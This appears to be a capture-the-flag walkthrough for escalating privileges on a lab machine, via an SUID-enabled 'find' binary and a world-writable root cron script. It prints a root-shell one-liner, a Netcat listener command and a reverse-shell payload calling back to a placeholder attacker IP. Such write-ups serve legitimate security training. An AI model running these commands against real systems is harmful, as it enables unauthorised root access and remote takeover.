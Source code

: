 ## Privilege Escalation Walkthrough

This machine has two primary paths to root from a low-privilege shell.

### Path 1: SUID Misconfiguration

1.  **Enumeration:** After gaining a shell, run an enumeration script like `linpeas.sh` or manually search for SUID binaries: `find / -perm -u=s -type f 2>/dev/null`. This will reveal that `/usr/bin/find` has the SUID bit set.
2.  **Exploitation:** Look up `find` on GTFOBins. Use the provided command to spawn a root shell.
    ```bash
    /usr/bin/find . -exec /bin/sh -p \; -quit
    ```
3.  **Flag:** The flag is located at `/root/suid_flag.txt`.

### Path 2: Writable Cron Job

1.  **Enumeration:** `linpeas.sh` will highlight that the script `/usr/local/bin/backup.sh` is world-writable and is being run by a root cron job.
2.  **Exploitation:**
    * Start a Netcat listener on your attacker machine: `nc -lvnp 4444`.
    * From the victim shell, overwrite the script with a reverse shell payload:
        ```bash
        echo 'bash -c "bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1"' > /usr/local/bin/backup.sh
        ```
3.  **Result:** Within one minute, the cron job will execute and a root shell will connect back to your listener.
4.  **Flag:** The flag is located at `/opt/cron_flag.txt`.
